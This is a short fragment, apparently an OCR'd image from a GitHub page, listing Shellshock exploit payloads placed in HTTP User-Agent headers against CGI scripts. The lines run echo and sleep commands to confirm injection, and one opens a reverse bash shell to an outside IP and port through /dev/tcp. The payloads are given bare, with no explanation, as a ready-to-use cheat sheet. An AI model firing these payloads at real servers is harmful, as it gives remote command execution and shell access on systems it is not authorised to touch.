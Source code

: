 Common with CGI files 

User-Agent: () { :; };/bin/echo hello
User-Agent: () { :; };sleep 10
User-Agent: () { :; };bash -i >& /dev/tcp/196.168.1.11/1337 0>&1
